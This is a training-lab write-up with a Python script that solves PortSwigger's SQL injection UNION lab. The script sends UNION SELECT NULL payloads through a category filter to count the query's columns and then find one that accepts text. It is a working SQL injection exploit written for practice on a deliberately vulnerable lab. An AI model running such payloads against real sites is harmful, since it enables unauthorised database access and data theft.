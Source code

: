 ```yaml
---
title: SQL injection UNION attack, finding a column containing text
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text/">
4. SQL injection UNION attack, finding a column containing text</a>

We're asked to determine which columns are compatible with string data so we can
leak data from the original table. We use a UNION SELECT... to iteratively brute
force the columns that are compatible with string data.

Solution:

```python
# usage:
# python3 4.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import re
from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")

    def solve(self) -> None:
        s = requests.Session()
        r = s.get(f"{self.url}")
        token = re.findall(r"string: \'(\w+)\'", r.text)[0]

        i = 1
        r = s.get(f"{self.url}/filter?category=Accessories'+UNION+SELECT+NULL--")
        while r.status_code == 500:
            i += 1
            nulls = ["NULL"] * i
            r = s.get(
                f"{self.url}/filter?category=Accessories'+UNION+SELECT+{','.join(nulls)}--"
            )

        for j in range(i):
            nulls = ["NULL"] * i
            nulls[j] = f"'{token}'"
            r = s.get(
                f"{self.url}/filter?category=Accessories'+UNION+SELECT+{','.join(nulls)}--"
            )
            if r.status_code != 500:
                print(f"Column {j + 1} accepts string values")
                break


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
